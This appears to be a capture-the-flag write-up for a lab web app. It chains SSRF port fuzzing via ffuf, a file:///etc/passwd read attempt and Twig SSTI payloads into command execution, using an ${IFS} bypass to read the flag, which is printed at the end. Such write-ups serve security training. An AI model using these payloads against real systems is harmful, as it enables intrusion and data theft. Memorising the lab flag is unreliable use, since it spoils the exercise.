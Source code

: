 ﻿---
sticker: lucide//server
---
## Scenario

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.

![Pasted image 20250212154851.png](../../../IMAGES/Pasted%20image%2020250212154851.png)

Let's begin by checking the page:

![Pasted image 20250212154913.png](../../../IMAGES/Pasted%20image%2020250212154913.png)

We got a simple page, nothing is off at the beginning, we have three sections: `menu`, `reviews` and `contact`, let's read the main's page source code:

![Pasted image 20250212155010.png](../../../IMAGES/Pasted%20image%2020250212155010.png)

We can see this js code at the end of the file, let's break it down:

```ad-important
### **1. Loop Through Truck IDs**

- Iterates over a list of truck IDs:`["FusionExpress01", "FusionExpress02", "FusionExpress03"]`.
 
- For each truck ID, an HTTP request is made to fetch its location.
 

---

### **2. XMLHttpRequest Setup**

- **Synchronous Request**: 
 `xhr.open('POST', '/', false)` creates a **synchronous** POST request to the server (`/`). 
 _(Synchronous requests block the UI until completion, which is generally discouraged.)_
 
- **Request Headers**: 
 Sets`Content-Type: application/x-www-form-urlencoded` to send data as form-encoded key-value pairs.
 

---

### **3. Request Handling**

- **POST Data**: 
 Sends the parameter`api=http://truckapi.htb/?id=<TRUCK_ID>` in the request body.
 
 - `encodeURIComponent("=" + truckID)` ensures the`=` and truck ID are URL-safe (e.g.,`%3DFusionExpress01`).
 
 - Final URL sent to the server:`http://truckapi.htb/?id=FusionExpress01`.
 
- **Server-Side Behavior**: 
 The server likely acts as a proxy, using the`api` parameter to fetch data from the internal`truckapi.htb` endpoint. 
 _(This could introduce SSRF vulnerabilities if the server doesn't validate the URL.)_
 

---

### **4. Response Handling**

- **Success Case (HTTP 200)**:
 
 - Parses the response as JSON.
 
 - Displays`data['location']` if available, or`data['error']` if an error is present.
 
- **Failure Case**: 
 Shows "Unable to fetch current truck location!" if the request fails (non-200 status).
 

---

### **5. UI Updates**

- Updates the HTML element with`id=truckID` (e.g.,`<div id="FusionExpress01">`) to show the location/error.
 

---

### **Key Observations**

- **SSRF Risk**: The server trusts the`api` parameter to make internal requests. If unvalidated, attackers could exploit this to access internal systems.
 
- **Hardcoded Truck IDs**: Limits functionality to predefined trucks (no user input).
 
- **Synchronous Requests**: Poor practice for user experience but intentional here for sequential processing.

### **Summary**

For each Truck ID:
 1. Send POST to server with URL: `http://truckapi.htb/?id=<TRUCK_ID>`
 2. Server fetches data from `truckapi.htb`
 3. Client displays location/error in the webpage
```

Understanding the functionality of the page, we can start burp and check the request:

![Pasted image 20250212160205.png](../../../IMAGES/Pasted%20image%2020250212160205.png)

We can begin the testing for SSRF.

## SSRF Test
---

We can begin the test by pointing `http://127.0.0.1:80` to view the response:

![Pasted image 20250212160429.png](../../../IMAGES/Pasted%20image%2020250212160429.png)

It went through, what if we point to a closed port:

![Pasted image 20250212160546.png](../../../IMAGES/Pasted%20image%2020250212160546.png)

An error message is shown, knowing this, we can use ffuf and fuzz for open ports:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200
```

We can see the following:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : POST
 :: URL : http://83.136.252.66:53014/
 :: Wordlist : FUZZ: /home/samsepiol/ports.txt
 :: Header : Host: 83.136.252.66:53014
 :: Header : Content-Type: application/x-www-form-urlencoded
 :: Data : api=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter : Regexp: Error \(7\)
________________________________________________

3306 [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 158ms]
80 [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 5317ms]
```

So, port 3306 is open, let's check the response:

![Pasted image 20250212161958.png](../../../IMAGES/Pasted%20image%2020250212161958.png)

We got another error message, `Received HTTP/0.9 when not allowed`, but it doesn't matter, since we know we have SSRF, we can attempt to read local files:


```
file:///etc/passwd
```

We get the following:

![Pasted image 20250212165927.png](../../../IMAGES/Pasted%20image%2020250212165927.png)

`file` has been disabled, let's test other way.

## SSTI Test
---

We can test SSTI with this simple payload:


```twig
http://truckapi.htb/?id={{7*7}}
```

We see the following:


![Pasted image 20250212170132.png](../../../IMAGES/Pasted%20image%2020250212170132.png)

It works, this means we are facing `twig`, let's try to use this:

```twig
{{ ['id'] | filter('system') }}
```

We need to format it:

```twig
http://truckapi.htb/?id={{['id']|filter('system')}}
```

We see the following:

![Pasted image 20250212170307.png](../../../IMAGES/Pasted%20image%2020250212170307.png)

We got RCE, let's proceed to read our flag, since we need to do a space in order to do `cat /flag.txt`, we can use `${IFS}` which is the `Internal Field Separator` to bypass the space restrictions in shell commands, payload would be the following:

```twig
http://truckapi.htb/?id={{['cat${IFS}/flag.txt']|filter('system')}}
```

We can see the following:

![Pasted image 20250212170624.png](../../../IMAGES/Pasted%20image%2020250212170624.png)

We got our flag:

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

![Pasted image 20250212170814.png](../../../IMAGES/Pasted%20image%2020250212170814.png)

